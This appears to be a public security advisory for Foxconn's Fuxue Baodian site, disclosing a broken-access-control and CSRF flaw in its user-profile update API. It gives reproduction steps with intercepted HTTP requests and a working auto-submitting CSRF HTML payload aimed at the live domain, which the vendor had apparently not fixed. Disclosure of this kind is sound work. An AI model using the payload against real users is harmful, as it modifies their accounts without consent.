



## Summary

A security flaw in Fuxue Baodian website (**iedu.foxconn.com**) allows unauthorized users to modify personal information through a `Broken Access Control (BAC)` vulnerability in the `/public/user/updateUser` API. While the frontend UI hides the "Submit" button to restrict editing, the backend fails to validate if the user has the privilege to perform updates. Furthermore, the API lacks anti-CSRF protections, enabling a `Cross-Site Request Forgery (CSRF)` attack. An attacker can trick a logged-in user into visiting a malicious link, which automatically modifies their profile data (`nickname`, `gender`, `signature`) without their consent.


## Affected Product

- **Vendor:** Foxconn
- **Product:** Fuxue Baodian
- **Version:** Current as of 2025-11-20
- **Component:** User Profile Module
- **Domain:** iedu.foxconn.com

**Note:** The vulnerability was confirmed in the live web application as of 2025-11-20. Since the application does not expose a version string, a specific version number could not be determined.


## Impact

* **Unauthorized Data Modification:** Attackers can bypass frontend restrictions to manipulate database datas.
* **Cross-Platform Data Pollution:** The vulnerability affects multiple integrated platforms (e.g., `Fuxue Baodian Mobile App`, `Aikoudai App`), causing unauthorized data changes to synchronize across the entire corporate ecosystem.
* **Account Deception:** Attackers can change a user's profile details via CSRF, which could be used for social engineering or spreading misinformation within the entire corporate's ecosystem.


## CVSS v3.1 Score

**Vector:** `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:H/A:N`

**Base Score:** **7.5 (High)**

- AV (Attack Vector): Network 
- AC (Attack Complexity): Low
- PR (Privileges Required): None
- UI (User Interaction): None
- S (Scope): Unchanged
- C (Confidentiality): None
- I (Integrity): High
- A (Availability): None


## Reproduction Steps

### BAC

After logging into Fuxue Baodian website, navigate to the personal settings page (`https://iedu.foxconn.com/public/user/userInfo`), as shown in the following image:


You will notice that there is no `Submit` button in the above image, meaning we do not have permission to modify personal information. However, we can make the `Submit` button appear and become clickable by modifying the frontend webpage source code, as shown in the following image:

```html
<button disabled="" class="btn btn-success dpn" style="width: 200px;margin-top: 20px;">提交</button>
<!-- Change the above HTML code to the following line -->
<button class="btn btn-success" style="width: 200px;margin-top: 20px;">提交</button>
```



Click the `Submit` button and use BurpSuite to intercept its API request, as shown below:

```http
POST /public/user/updateUser HTTP/2
Host: iedu.foxconn.com
Cookie: zh_choose=t; fxbdLocal=zh; deviceid=W0959dcd76a9443638214098e618c0dd0; JSESSIONID=3820AB3ABAF419410671616AF10431E6
Content-Length: 9
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: zh-TW,zh;q=0.9
Sec-Ch-Ua: "Not_A Brand";v="99", "Chromium";v="142"
Sec-Ch-Ua-Mobile: ?0
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: https://iedu.foxconn.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://iedu.foxconn.com/public/user/userInfo
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

gender=70
```

The backend response is as follows:

```http
HTTP/2 200 OK
Content-Type: text/plain;charset=UTF-8
Content-Length: 7
X-Frame-Options: ALLOW-FROM https://iedu.foxconn.com/
Expires: Wed, 26 Nov 2025 07:09:55 GMT
Cache-Control: max-age=0, no-cache, no-store
Pragma: no-cache
Date: Wed, 26 Nov 2025 07:09:55 GMT
Strict-Transport-Security: max-age=31536000 ; includeSubDomains ; preload

success
```

Modify the parameters carried in the original request above (change the user's `nickname`, `gender`, and `signature`) to construct a new request, as shown below:

```http
POST /public/user/updateUser HTTP/2
Host: iedu.foxconn.com
Cookie: zh_choose=t; fxbdLocal=zh; deviceid=W0959dcd76a9443638214098e618c0dd0; JSESSIONID=3820AB3ABAF419410671616AF10431E6
Content-Length: 60
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: zh-TW,zh;q=0.9
Sec-Ch-Ua: "Not_A Brand";v="99", "Chromium";v="142"
Sec-Ch-Ua-Mobile: ?0
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: https://iedu.foxconn.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://iedu.foxconn.com/public/user/userInfo
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

nicename=ThisIsNiceName&signature=ThisIsSignature&gender=77
```

The server response is as follows:

```http
HTTP/2 200 OK
Content-Type: text/plain;charset=UTF-8
Content-Length: 7
X-Frame-Options: ALLOW-FROM https://iedu.foxconn.com/
Expires: Wed, 26 Nov 2025 07:14:26 GMT
Cache-Control: max-age=0, no-cache, no-store
Pragma: no-cache
Date: Wed, 26 Nov 2025 07:14:26 GMT
Strict-Transport-Security: max-age=31536000 ; includeSubDomains ; preload

success
```

Refresh the frontend webpage, and you will find that the `name`, `nickname`, and `gender` in the personal information have been successfully modified, as shown in the following image. This indicates that the API has a BAC vulnerability!!!


### CSRF

Next, let's reproduce how to exploit this API for a CSRF attack. The CSRF Payload is as follows:

> Note that the `/public/user/updateUser` API improperly allows state-changing operations via **HTTP GET requests**. Although the application's session cookies are protected by `SameSite=Lax`, this browser security policy **permits cookies to be sent with cross-site GET navigations**.

```html
<!DOCTYPE html>
<html lang="zh-CN">
<head>
    <meta charset="UTF-8">
    <title>加载中…</title>
</head>
<body>
    <a href="https://iedu.foxconn.com/public/user/updateUser?nicename=ThisIsNiceName%202&signature=ThisIsSignature%202&gender=70"
        id="exploit"></a>
    <script>
        setTimeout(() => document.getElementById('exploit').click(), 400);
    </script>
</body>
</html>
```

For a simple demonstration, use `python3 -m http.server 8888` to deploy the above CSRF Payload file `csrf_payload.html` locally, as shown in the following image:



Send the above CSRF Payload link `http://localhost:8888/csrf_payload.html` to the victim. After accessing this link in a browser that is already logged into Fuxue Baodian, the frontend will immediately call the API for updating user information without any knowledge! More notably, the updated information will be synchronized to the `Fuxue Baodian Mobile App`, `Aikoudai App`, and many other apps.

The effect after I (the victim) access the CSRF Payload link is as shown in the following image, where you will find that the `name`, `nickname`, and `gender` have been modified!




## Remediation

* **Server-Side Authorization:** Do not rely on frontend UI elements (hiding buttons) for security. Implement strict server-side checks to verify if the authenticated user has the permissions to call the `/public/user/updateUser` API.
* **Implement Anti-CSRF Tokens:** Introduce unique, cryptographically strong anti-CSRF tokens for all state-changing requests. The server should validate this token before processing the request.
* **Strict HTTP Method Enforcement:** The `/public/user/updateUser` API must be restricted to only accept **POST** or **PUT** requests. The backend should explicitly reject any **GET** requests intended for state-changing operations. 
* **Strict SameSite Cookie Attribute:** Explicitly configure the session cookies with the **`SameSite=Strict`** attribute. Unlike the default `Lax` mode, which permits cookies on top-level GET navigations.


## Timeline
- **2025-11-20:** Vulnerability identified and initial proof-of-concept (PoC) verified.

- **2025-11-28:** Detailed vulnerability report submitted to the vendor for remediation. No acknowledgment or remediation confirmation received as of 2026-01-14.

- **2026-01-14:** Decision made to proceed with public disclosure following the expiration of a reasonable grace period.


## CWE References

* [CWE-862: Missing Authorization](https://cwe.mitre.org/data/definitions/862.html)
* [CWE-352: Cross-Site Request Forgery (CSRF)](https://cwe.mitre.org/data/definitions/352.html)